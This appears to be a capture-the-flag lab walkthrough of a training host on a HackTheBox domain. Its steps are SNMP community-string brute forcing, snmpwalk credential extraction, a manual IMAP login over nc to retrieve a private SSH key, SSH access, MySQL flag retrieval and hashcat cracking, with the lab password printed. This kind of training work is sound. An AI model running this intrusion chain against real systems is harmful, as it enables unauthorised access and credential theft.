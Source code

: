 
*Command:* Search community string, minimum rate
- onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt $TARGET-w 100

*Result:* $TAREGET **[backup]** Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64

---

*Command:* snmpwalk -v2c -c backup 10.129.202.20

*Result:* Found username, domain, password

```
"Admin <tech@inlanefreight.htb>"
"tom NMds732Js2761"
```

---

*Command:* Access to IMAP + login to email + read email
- nc -nv $TARGET 143
- a1 LOGIN tom NMds732Js2761
- f fetch 1:1 (BODY[HEADER.FIELDS (Subject)]) : Subject: KEY
- f FETCH 1 BODY[text] 
  
*Result:* Found 1 email + private ssh key

---

*Command:* Chmod of sss key + login to ssh with key
- chmod +600 id_rsa
- ssh tom@$TARGET -i id_rsa
  
*Result:* Access to target with tom's key

---

*Command:* history command

*Result:* found mysql

---

*Command:* Access mysql + read flag
- mysql -u tom -p
- show databases; 
- show columnns from users;
- select * from users where username = 'HTB'; 
  
*Result:* Found database users, found flag


## Cracking Passwords with Hashcat

*Command:* Identify hash mode + crack it
- hashid 0c67ac18f50c5e6b9398bfe1dc3e156163ba10ef -m
- hashcat -a 0 -m 100 question1 rockyou.txt
